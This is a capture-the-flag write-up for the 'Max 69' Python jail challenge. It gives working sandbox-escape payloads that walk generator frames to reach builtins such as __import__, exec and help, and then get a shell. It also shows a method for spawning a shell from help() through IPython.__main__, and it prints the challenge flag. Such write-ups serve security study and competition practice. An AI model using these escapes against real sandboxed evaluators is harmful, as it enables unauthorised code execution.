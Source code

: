 ```yaml
---
title: Max 69
tags: [misc, python, pyjail, nordics-ddc-ecsc-2025]
date: 2025-03-17 00:00:01
draft: false
heroImage: ./assets/cyberlandslaget-ddc.png
---
```


<style>
.basis-1\/5{flex-basis: 5% !important;}
.max-w-prose{max-width: 100ch !important;}
.prose{max-width: 100ch !important;}
</style>

# Max 69

```
English: This challenge is not for the faint of heart! 
Show that you are a python whisperer! 
Feel free to chuckle every time you see a funny number.
```

```python
inp = input('Gimme max 69!\n> ')
if not inp.isascii():
    quit('Give me ascii please')
if '__' in inp:
    quit('No thank you')
if len(inp) > 69:
    quit("Don't give me more than your favourite number")

eval(inp, {'__builtins__':{}}, {'__builtins__':{}})
```

## First thoughts
This is a part 2 of Max 420, but now we have to get it to 69 characters.

Previous solution used was
```python
(y:=[],y.append(z.gi_frame.f_back.f_back.f_builtins[f"{'_'}_import{'_'}_"]("os") for z in y), *[*y[0]][0].system("sh"))
```

which is 119 characters.

help function is often used to get RCE. 

```python
(y:=[],y.append(z.gi_frame.f_back.f_back.f_builtins["help"]() for z in y), *[*y[0]])
```

but changing to call help we get down to 89 

## Doing research

So I spent time trying to find out what others have done as I couldn't get it shorter.
I went into a rabbit hole of trying to understand the scope. 

I won't go so much into details, but I realised the challenge had a "bug"

specific in 
```python
eval(inp, {'__builtins__':{}}, {'__builtins__':{}})
```

correct to limit builtins would be

```python
eval(inp, {'__builtins__':{}}, None)
```

as it really is

```python
eval(inp, globals={'__builtins__':{}}, locals=None)
```

After time I got this working when I changed locals to None

```python
(q:=(q.gi_frame.f_back.f_back.f_builtins['help']()for _ in[0]),[*q])
```

but it does not work with the challenge as local scope is not working properly, so the generator can't access the q variable when it's running. 

I assume this is the point most players would be stuck at.

## Finding the first solution
This section might hurt a bit to people who have spent a lot of time.

I spent a lot of time trying to find a solution and I found this archived challenge "Completely new challenge" on
https://imaginaryctf.org/ArchivedChallenges/58

looking at attachment finds us this

```python
assert ascii(x := input())[1:-1] != x.replace("__","")[:97], eval(x,{'__builtins__':{}},{'__builtins__':{}})
```

where it uses eval in same way and also does not allow __ and 

So i decided to join imaginary ctf discord to see if any more discussion happened.

I searched builtins and found the channel and there were discussion of getting a shorter payload

```python
1in(g:=((g:=g.gi_frame.f_back.f_back.f_builtins)["exec"](g["input"]())for _ in[1]))
```

and this seems to be shortest with 83 and changing it to call help and remove unused brackets, shortens it to 69.

```python
1in(g:=(g:=g.gi_frame.f_back.f_back.f_builtins["help"]()for _ in[1]))
```

It works!


## How to get shell with help?

```
Next part is written as a draft, but added as time is running out.
Will update writeup when I get time.
```

But now is the other part of the challenge how do we get shell in help()? 

Usually this can be done with less/more, but Docker is using socat. So less/more is not used (I believe this is the reason why)

So I spend time trying to see if anything changes when I load in new modules and try to run chal again, but nothing.

So I go around searching through other modules if I can get any info.

Then I try out `sage` because I saw it was installed from before, and yes it's there in the help documentation. I was peeking around and wondering why!

After messing around I see a path to `/usr/bin/python3.13/site-packges/sage`
I started wondering if I could see all site-packges.
So I enter in `site-packages` and that's possible.
I try out a bit more to see if any of them might spawn a shell.

I try out `Jedi` because why not, and then I see a `__main__` as part of Jedi. 

So I type into help 
```
jedi.__main__
```

And there I got kicked out of nc!

Looks like it errored trying to load the file?
I see in docker log and it seems to miss something trying to import.

Could this be a way to get shell?

I open up a local shell to my docker instance and cd to site-packages path and run 

```
find . -type f -name "__main__.py"
```

```bash
./sage/doctest/__main__.py
./sage/repl/ipython_kernel/__main__.py
./jedi/__main__.py
./jedi/inference/compiled/subprocess/__main__.py
./pygments/__main__.py
./IPython/__main__.py
./docutils/__main__.py
./numpy/f2py/__main__.py
./platformdirs/__main__.py
./jupyter_core/__main__.py
./zmq/log/__main__.py
./tornado/test/__main__.py
./ipykernel/__main__.py
./fontTools/__main__.py
./fontTools/cu2qu/__main__.py
./fontTools/designspaceLib/__main__.py
./fontTools/feaLib/__main__.py
./fontTools/merge/__main__.py
./fontTools/mtiLib/__main__.py
./fontTools/otlLib/optimize/__main__.py
./fontTools/qu2cu/__main__.py
./fontTools/subset/__main__.py
./fontTools/ttLib/__main__.py
./fontTools/varLib/__main__.py
./fontTools/varLib/instancer/__main__.py
./PIL/__main__.py
./charset_normalizer/__main__.py
./charset_normalizer/cli/__main__.py
./sphinx/__main__.py
./sphinx/ext/intersphinx/__main__.p
```

and I get this entire list.

From context, it seems like they are files for CLI!

I first tried out the ipython kernel and I got a bit stuck there, nothing useful.
Then I saw IPython and tried that one, and that gave me a shell!

```
IPython.__main__
```
## Flag

```
DDC{w4lK_Th4t_Fr4m3_bUt_h3lP_I_F0rG0t_t0_ch3ck__name__}
```